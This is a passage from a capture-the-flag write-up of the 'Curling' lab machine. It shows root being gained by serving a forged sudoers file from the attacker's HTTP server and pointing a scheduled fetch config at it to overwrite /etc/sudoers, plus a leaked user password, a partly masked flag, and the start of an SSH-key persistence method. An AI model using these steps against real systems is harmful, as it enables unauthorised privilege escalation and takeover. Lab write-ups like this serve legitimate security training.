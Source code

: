 
The new file hosted on Kali will have this difference:
```
$ cat sudoers             
...

# User privilege specification
root    ALL=(ALL:ALL) ALL
floris  ALL=(ALL:ALL) ALL

...
```

Start a HTTP server.
```
$ sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Change `input` to get our forged file and place on the correct place.
```
floris@curling:~/admin-area$ cat input 
url = "http://10.10.14.14/sudoers"
output = /etc/sudoers
```

After a minute we try to run `sudo su` and we get it :-)

```
floris@curling:~/admin-area$ sudo su -
[sudo] password for floris: 5d<wdCbdZu)|hChXll
root@curling:~# id
uid=0(root) gid=0(root) groups=0(root)
```

```
root@curling:~# cat /root/root.txt 
523a************************1537
```

## Another way to get root 

Let's create a ssh key and add it on the root `authorized_keys` file.

```
$ ssh-keygen -f curling-rsa
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in curling-rsa
Your public key has been saved in curling-rsa.pub
The key fingerprint is:
SHA256:+7XUz96BvHvXtPf7aGIn6fOY5XkjprFbRLzPfovSyx8 kali@kali
The key's randomart image is:
+---[RSA 3072]----+
|                 |
|            .    |
|             o   |
|            . .  |
|        S    o   |
|         .  o.+ .|
|        .  .+=oEo|
|         . +@X*OX|
|          .*X&@B^|
+----[SHA256]-----+
```
